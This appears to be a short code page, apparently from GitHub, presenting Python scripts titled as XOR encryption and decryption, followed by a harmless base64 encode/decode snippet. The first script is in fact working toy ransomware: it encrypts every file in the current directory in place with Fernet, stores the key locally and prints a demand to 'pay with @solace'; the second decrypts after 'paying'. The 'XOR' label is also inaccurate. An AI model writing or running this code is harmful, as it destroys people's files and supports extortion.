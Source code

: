 - XORing encryption and decryption with python:
```
#XORing encryption

import os
from cryptography.fernet import Fernet
files = []
key = Fernet.generate_key()
with open('masterkey.key', "xb") as mykey:
        mykey.write(key)
for file in os.listdir():
        if file != 'masterkey.key' and file != "encrypt_ransom.py" and os.path.isfile(file):
                files.append(file)
for fl in files:
        with open(fl, 'rb') as contents:
                a = contents.read()
        encrypt = Fernet(key).encrypt(a)
        with open(fl, "wb") as realfiles:
                realfiles.write(encrypt)
print("Your Files are encrypted. so pay with @solace!")
```

```
#XORing decryption

import os
from cryptography.fernet import Fernet
files = []
with open("masterkey.key", 'rb') as mykey:
        key = mykey.read()
for file in os.listdir():
        if file != "decrypt_ransom.py" and file != "masterkey.key" and os.path.isfile(file):
                files.append(file)
for fl in files:
        with open(fl, 'rb') as contents:
                a = contents.read()
        decrypt = Fernet(key).decrypt(a)
        with open(fl, 'wb') as realfile:
                realfile.write(decrypt)
print("Your files are decrypted! Thanks for paying!")
```


# Base64 decode/encode
```
import base64
msg = input("text: ")
encoded=base64.b64encode(bytes(msg, 'utf-8'))
print(encoded)

decoded=base64.b64decode(encoded)
print(decoded)
```
